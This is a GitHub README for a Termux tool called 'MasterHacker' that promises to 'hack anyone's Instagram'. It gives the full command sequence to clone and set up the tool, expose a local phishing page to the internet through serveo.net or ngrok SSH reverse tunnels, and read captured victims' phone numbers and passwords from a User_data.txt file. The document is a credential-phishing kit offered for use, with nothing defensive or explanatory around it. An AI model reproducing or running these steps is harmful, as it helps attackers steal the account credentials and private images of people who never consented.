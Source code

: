<h1 align="center"><u>MasterHacker</u></h1>

![Hack page and get images](https://raw.githubusercontent.com/Mouse99-tech/Photo/refs/heads/main/IMG_20250205_093528.jpg)
<h3 align="center"> Hack anyone's Instagram and get images!</h3>




### [TERMUX] Install All Comments


```
pkg update && pkg upgrade -y
```
```
pkg install git
```
```
git clone https://github.com/Masterdas/Instagram.git
```
```
cd Instagram
```
```
bash setup.sh
```
```
instagram
```
```
localhost
```
### Termux New SESSION 
```
cd
```
### Create a new Password
```
ssh-keygen -t rsa -b 2048
```
```
ssh -R 80:localhost:8080 serveo.net
```
```
ssh -R 443:localhost:8080 v2@connect.ngrok-agent.com http
```
```
yes
```
```
cat /storage/emulated/0/Download/User_data.txt
```
- `Termux Exit enter to CTRL d`
- 🗃️ Open Manager, Download Folder, User_data.txt

### [Termux] Help Commend

1 - Termux install package

2 - Packege setup bash setup.sh

3  - Termux New tap Open
 
4 - type instagram and Start Port forwarding

5 - User Number/password = open file🗃️ Download

6 - `To run Localhost, type localhost`



## [~] Find Me on :

- [![Github](https://img.shields.io/badge/Github-KasRoudra-green?style=for-the-badge&logo=github)](https://github.com/Masterdas?tab=repositories)

- [![Telegram](https://img.shields.io/badge/Gmail-KasRoudra-green?style=for-the-badge&logo=telegram)](https://t.me/masterdas000)

- [![Facebook](https://img.shields.io/badge/Facebook-KasRoudra-green?style=for-the-badge&logo=facebook)](https://facebook.com/x)



